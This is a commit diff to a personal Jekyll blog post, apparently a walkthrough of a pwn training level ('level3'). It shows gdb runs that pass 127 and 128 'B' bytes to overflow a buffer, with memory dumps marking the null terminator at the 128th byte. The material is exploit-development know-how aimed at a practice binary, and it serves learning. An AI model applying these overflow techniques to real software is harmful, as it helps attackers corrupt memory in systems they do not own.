

Before and after one commit to KevinCarroll7737/kevincarroll7737.github.io, a Jekyll site: the page built from _posts/2019-08-23-R0-Pwnage-Linux-level3.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1810 px. Shown: the whole window at 99% size, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
128th byte

````diff
--- a/_posts/2019-08-23-R0-Pwnage-Linux-level3.markdown
+++ b/_posts/2019-08-23-R0-Pwnage-Linux-level3.markdown
@@ -98,11 +98,8 @@ Fine! By fulling the `buf2` buffer w/o null byte, it's possible to overflow the
 ```
 
 ```bash
-level3@lxc-pwn-x86:/levels$ ./level3 A `python -c 'print "\x42" * 127'`
-String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBA
-```
-
-```bash
+(gdb) r A `python -c 'print "\x42" * 127'`
+(...)
 Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
 31		concat(buf, buf2, buf1);
 (gdb) x/100wx $eax-100
@@ -120,15 +117,12 @@ Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
 0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
 0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
 0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
-0xffffda6c:	0x00000000	0x00000041	0x00000000	0x00000000 <---------- *
+0xffffda6c:	0x00424242  0x00000041	0x00000000	0x00000000 <---------- * 128th byte is null
 ```
 
 ```bash
-level3@lxc-pwn-x86:/levels$ ./level3 A `python -c 'print "\x42" * 128'`
-String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAA
-```
-
-```bash
+(gdb) r A `python -c 'print "\x42" * 128'`
+...
 Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
 31		concat(buf, buf2, buf1);
 (gdb) x/100wx $eax-100
@@ -146,7 +140,7 @@ Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
 0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
 0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
 0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
-0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- *
+0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- * 128th byte is \x42
 ```
 
 Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and fuzz values to crash the program.
````
